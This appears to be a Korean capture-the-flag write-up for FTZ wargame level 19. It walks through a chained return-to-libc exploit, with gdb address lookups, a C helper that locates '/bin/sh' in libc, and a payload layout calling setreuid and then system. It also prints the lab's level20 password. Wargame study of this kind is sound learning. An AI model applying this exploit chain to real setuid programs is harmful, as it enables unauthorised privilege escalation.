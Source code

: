 ```
uid=3100(level20) gid=3099(level19) groups=3099(level19)
my-pass
TERM environment variable not set.

Level20 Password is "we are just regular guys".
```

책에서는 RTL에 대한 학습을 요구했으므로... RTL 기법을 이용한 공격도 시도해본다.

먼저 RET까지의 버퍼 사이즈는 0x2C(44) 바이트 인 것을 알고있다.
필요한건 `setreuid`와 `system` 함수의 주소다. 

```
(gdb) b *main
Breakpoint 1 at 0x804835c
(gdb) r
Starting program: /home/level19/tmp/attackme 

Breakpoint 1, 0x0804835c in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0x4203f2c0 <system>
(gdb) p setreuid
$2 = {<text variable, no debug info>} 0x420d7920 <setreuid>
(gdb) 
```

먼저 "/bin/sh" 의 위치를 찾아온다.

```
[level19@ftz tmp]$ cat getsh.c
#include <stdio.h>

int main()
{
	long systemaddr = 0x4203f2c0;
	while(memcmp((void*)systemaddr,"/bin/sh",8))
	{
		systemaddr++;
	}
	printf("Addr = %p\n",systemaddr);
	return 0;
}

[level19@ftz tmp]$ ./getsh
Addr = 0x42127ea4
```

자 그럼 `chainning return to libc` 기법을 이용하여 공격을 시도한다.

payload는 다음과 같다.

```
buf[44] | setreuid addr | pop pop ret | ruid(3100) | euid(3100) | system addr | dummy[4] | /bin/sh addr
```
